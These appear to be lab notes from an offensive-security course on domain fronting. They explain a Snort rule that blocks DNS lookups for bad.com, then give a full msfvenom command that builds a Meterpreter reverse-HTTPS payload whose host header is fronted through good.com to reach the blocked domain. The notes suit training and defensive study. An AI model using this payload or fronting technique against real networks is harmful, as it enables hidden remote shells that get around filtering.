

## Domain Fronting In Lab
Our goal will be to use the trusted good.com domain to reach the otherwise blocked bad.com domain. 
Our CDN hostname will be cdn123.offseccdn.com, which will point to the IP address of bad.com.

good.com is considered safe for client access. The bad.com domain is blocked by Snort, which will drop all DNS queries using this snort rule:
```snort
drop udp any any -> any 53 (msg:"VIRUS DNS query for malicious bad.com domain"; content:"|01|"; offset:2; depth:1; content:"|00 01 00 00 00 00 00|"; distance:1; within:7; content:"|03|bad|03|com"; fast_pattern; classtype:bad-unknown; sid:2013482; rev:4;)
```

The rule has number of parameters:
1. The "drop udp any any -> any 53" section specifies that UDP traffic coming from any source IP, and any port, destined to any IP on port 53 (which is typically DNS) will be dropped if a rule match is detected.
2. The _msg_ option contains the message that Snort will return when a rule match is detected.
3.  "content:"|03|bad|03|com"" indicates the domain name, which is bad.com. The "03" value specifies the length of the string that follows. This value is set for each part of the FQDN.


To bypass the domain filters, we start by creating a shell with host header to our malicious CDN.
```sh
msfvenom -p windows/x64/meterpreter_reverse_https HttpHostHeader=cdn123.offseccdn.com LHOST=good.com LPORT=443 -f exe > https-df.exe
```

Transferring and running the payload, does the following:
1. The client did, in fact, properly set the SNI field to request the certificate from good.com.
2. The Ubuntu NGINX server replied with the certificate of good.com.
3. The rest of the traffic is encrypted but since we received our Meterpreter shell, we can confirm that it works properly.


## Exercise
In the exercise, even though our executable visits good.com, we can see in the host header in wireshark, that the host is set to exercise.offseccdn.com
